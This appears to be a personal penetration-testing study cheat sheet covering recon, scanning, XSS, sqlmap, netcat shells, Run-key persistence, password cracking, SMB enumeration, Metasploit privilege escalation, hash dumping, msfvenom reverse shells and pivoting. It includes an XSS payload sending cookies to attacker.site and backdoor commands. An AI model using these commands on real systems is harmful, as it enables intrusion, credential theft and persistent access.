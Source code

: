 1) **Checking the routing table**
	1) Windows -> **route print** 
	2) Linux -> **ip route** 
	3) **Before routing check the routing tables first**
	4) To Forward the IP we use command **ip route add 192.168.222.0/24 via 10.175.34.1**
		1) were 192.168 network is to be forwarded and 10.175.34.1 is gateway of the other network
	5) Resource - [https://devconnected.com/how-to-add-route-on-linux/#:~:text=Ubuntu or CentOS.-,Add route on Linux using ip,be used for this route.&text=By default%2C if you don,loopback excluded%2C will be selected](https://devconnected.com/how-to-add-route-on-linux/#:~:text=Ubuntu%20or%20CentOS.-,Add%20route%20on%20Linux%20using%20ip,be%20used%20for%20this%20route.&text=By%20default%2C%20if%20you%20don,loopback%20excluded%2C%20will%20be%20selected).



**`<br />`**
**Information Gathering**
2) On Linux we can perform **whois** command and on windows we can install Systinternals whois 
	1) Example whois apple.com
<br> 
**`<br />`**
3) **Subdomain Enumeration**
	1) site:company.com on google search engine 
	2) also we can search for `dnsdumpster.com`
	3) sublist3r in kali `sublist3r -v -d google.com`
	4) To Brute force the subdomains we can use subbrute and use names.txt as the wordlist which is present inside the sublist3r directory .  
		1) Usage : `sublist3r -v -d yahoo.com -b`
	5) we can also use virustotal search tab
	6) we can search for ssl certificates `https://crt.sh`
	7) Another tool is amass we can use` amass enum -v -src -ip -brute -min-for-recursive 2 -d domain-name`

**`<br />`**
**Scanning and Enumeration**
4) To see which hosts are alive in the network we use 
	  a)  fping : `fping -a -g IPRANGE`   ->  `fping -a -g 10.54.12.0/24  2>dev/null`
	  b) my preference : `fing -a -r IPRANGE`
	  c) my preference  : `nmap -sn IPRANGE -iL hostlist.txt` we can use other flags like -sL -Pn instead of sn 
	  d) my preference : `sudo netdiscover -i interface` 
	  e) Another example `nmap -sT IP`
	  f) To see which hosts are alive and we need to find the OS `nmap -Pn -O target`
	  g) Limit the hosts that are alive only `nmap -O --osscan-limi target`
	  h) scan all ports `nmap -sC -sV -A -T2 target -o details.nmap`
	  i) masscan command `masscan -p8080 -Pn --rate=800 --banners 10.0.1.0/24 -e tap0 --router-ip 10.0.1.4 --echo > masscan.conf`
	

 **`<br />`**
 **Fingerprinting with Netcat**

 5) Banner Grabbing
	 1) `nc target port` then hit enter 2 times for HTTP
	 2) `openssl s_client -connect target:443`
	 3) `httprint -P0 -h target -s signature_file` we can find signatures on /usr/share/httprint/signatures.txt
**`<br />`**
 **HTTP Methods** ( my preference to do via BURP)
  6) Methods 
	 1) GET -> request a resource .
		 1) GET /page.php HTTP/1.1
	 2) POST -> submit a request with various params
		 1) POST /login.php HTTP/1.1
			 HOST: xyz.com
			 username=abc&password=123
	 3) HEAD = GET
	 4) PUT -> upload a file on a web server for misconfigurations
	 5) DELETE -> remove a file from server 
	 6) OPTIONS -> used to check which  files are availible 
	 7) wc -m payload.php 
		1) Payload = 
		
	``nc victim.site 80
	PUT /payload.php HTTP/
	Content-type:text/html
	Content-length: 136
	payload above present``

**`<br />`**
7) Directories and File Enumeration
	1) **Dirbuster**
		1) put the detail like I know
	2) **Dirb** 
			1) `dirb http://google.com /usr/share/wordlist/small.txt`
			2)  cookies `dirb http://google.com /usr/share/wordlist/small.txt -c "COOKIE" `
			3) credentials `dirb http://google.com /usr/share/wordlist/small.txt -u "admin:pass"`
			4) Extensions `dirb http://google.com /usr/share/wordlist/small.txt -X .php,.css,.bak,.config`
			5) -z is used for time delay if there is an web application firewall present 
<br> **`<br />`**
8) **Google Hacking**
	1) `inurl`
	2) `intitle`
	3) `site`
	4) `filetype`
**`<br />`**
9) **XSS**
	1) using strings like `<i>` `<plaintext> ` `<script>alert(document.cookie)</script>` 
	2) we can find better payloads here `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection` 
	3) we can send cookies to ourselves
		1) ```<script> var i=new Image(); i.src="http://attacker.site/log.php?q="+document.cookie; </script>
		2)   ```
		3) using comment section or search  bar check for xss 
		4) check by `<H1> hello <H1>`
		5) use xsser by 
			1) `xsser -u 'target-where-payload has to inserted.php' -p 'in place of payload enter XSS just like using ffuf' --auto`
			2) this will generate a payload list if vuln exist

**`<br />`**
10) **SQL Injections**
	1) Union statement `Select Name, Description FROM Products Where ID='3' UNION SELECT Username, Password FROM Accounts;` 
	2) payload `' OR 'a'='a` 
	3) SQLMAP
		1) `sqlmap -u URL -p injection_parameter`
		2) `sqlmap -u IP?id=12 -p id --technique=U` 
		3) `sqlmap -u --data=<POST String> -p parameter`
		4) `sqlmap -u <target with parameter> --tables`
		5) `sqlmap -u <target with parameter> --current-db selfie4you -columns `
		6) `sqlmap -u <target with parameter> --current-db selfie4you --dump`
		7) `sqlmap -u <target with parameter> --current-db selfie4you -T users --columns `
		8) `sqlmap -u <target with parameter> --current-db selfie4you -T users -C username,password --dump`
		9) Login page `sqlmap -u <target/login.php> --data='user=a&pass=a'  -p user --technique=B --banner`

**`<br />`**

11) **NCAT**
	1) on victim machine install a binary of ncat and use the command `winconfig -l -p port_number -e cmd.exe` (Here attacker is initiating the connection and victim ie windows is listening in step 1 and step 2)
	2) on attacker machine  ` ncat victim IP:port `
	3) In this step kali machine is listening for and windows is sending connection `ncat -l -p port -v `
	4) in windows `winconfig -e cmd.exe IP:prt `
	5) for persistant backdoor use the command 
		1) in linux use `ncat -l -p port -v`
		2) in windows we go to `Computer\HKLM\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run` and create new string value  name:winconfig and value `"C:\Windows\System32\winconfig.exe IP listening_port -e cmd.exe"` 
	6) In meterpreter shell use `exploit/windows/local/s4u_persistance` 
	7) set session and set trigger logon
	8) set payload windows/meterpreter/reverse_tcp
	9) set lhost ,lport
**`<br />`**

11) **John** 
	1) `unshadow PASSWORD-FILE SHADOW-FILE > for_john.txt`
	2) `john --wordlist=/usr/share/wordlists/rockyou.txt for_john.txt`
**`<br />`**
12) **Hashcat** 
	1) hashcat -m module number -a 0 wordlist hash.txt

**`<br />`**


13) **Hydra**
	1) `hydra -l username -P /usr/share/wordlists/rockyou.txt http-post-form IP/site "/login.php:payload-for-username-and-pass:Error Message"` 
	2) `hydra -L /usr/share/wordlists/rockyou.txt -p passwd IP ssh


**`<br />`**

14) **Share**
	1) **Windows**
		1) `\\ServerName\ShareName\file_name`
		2) `\\ComputerName\C$,admin$,ipc$`
		3) `\\localhost\<sharename>`
		4) Windows share using -> `nbtstat -A IP` once the attacker understand the file server is running . can use `NEW View <target IP>`  
		5) `NET USE \\IP\IPC$ "/u:"` 
	 2) **Linux**
		 1) FOLLOW THE ORDER 
		 2) `enum4linux -n  target` = if contains 20 this means open shares
		 3) `enum4linux -P target` = for password policy enumeration 
		 4) `enum4linux -S target` = enumerate the shares on the target
		 5) `enum4linux -s /usr/share/enum4linux/share-list.txt target`
		 6) `enum4linux -U target` user enumneration 
		 7) `smbclient //demo.ine.local/share -N`  check if we can login without pass 
		 8) tool = /opt/impacket-0.9.19/examples/samrdump.py
		 9) `nmap --script=smb-brute target`
		 10) `smbclient \\\\IP\share -N ` connect to share
		10) `smbclient //IP/share -U username `
		11)  `nmap --script=smb-enum-shares target` = to list down the shares
		12)  `nmap --script=smb-enum-users target`
			check the users and their shares and check users if shares not present  


**`<br />`**




15) **Metasploit and meterpreter** 
	1) service postgresql start , service metasploit start
	2) we can scan network by `use aux/scanner/discovery/arp_sweep`
	3) tcp scan ``use aux/scanner/portscan/tcp`
	4) and using and exploiting vuln
	5) to escalate privs we can use `getsystem` command and modern windows blocks that so we use `exploit/windows/local/bypassuac` to bypass UAC module 
	6) we can use `hashdump` command in meterpreter or we can use `post/windows/gather/hashdump` to dump the hashes 
	7) To get our process id `getpid`
	8) to create a reverse shell payload using msfvenom
		1) `msfvenom -p linux/x64/shell_reverse_tcp lhost=IP lport=port -f elf -o reverse53`
		2) stable = `python -c "import pty;pty.spawn('/bin/bash')"`
	9) convert a normal shell to meterpreter shell 
		1) initial payload set payload php/reverse_php
		2) exploit 
		3) background it 
		4) use `post /multi/manage/shell_to_meterpreter`



**`<br />`**

16) **Wireshark Basics**
	1) Wireshark Filters
		1) `ip`   only packets using IP as layer 3 
		2) `not ip`  reverse of above
		3) `tcp port 80` packets where source and destination TCP port is 80
		4) `net 192.168.54.0/24` packets to and from specified network
		5) `src port 1234` The source port must be 1234; the transport protocol does not matter
		6) `src net 192.168.1.0/24` The source ip must be specified in network
		7) `host 192.168.45.65` all the packets to or from specified port
		8) `host www.examplehost.com` All the packets from or to the specified hostname  
		9) pg 34-36 wireshark study guide 

**`<br />`**



17) **Pivoting and Port Forwarding** 
	1) use meterpreter auto route `autoroute add -s subnet -n network meterpreter-session-id`
	2) Then we scan the subnet for open victims using `use auxiliary/scanner/portscan/tcp` 
	3) Then we have to pivot to the host machine using `portfwd add –l 3389 –p 3389 –r  [target host]`
		1) -l is the listening host on ATTACKER machine
		2) -p is the actual port open we discovered using portscan
		3) -r identified open machine using portscan 
			1) Resources  = https://www.offensive-security.com/metasploit-unleashed/portfwd/
			2) Resources = https://www.offensive-security.com/metasploit-unleashed/pivoting/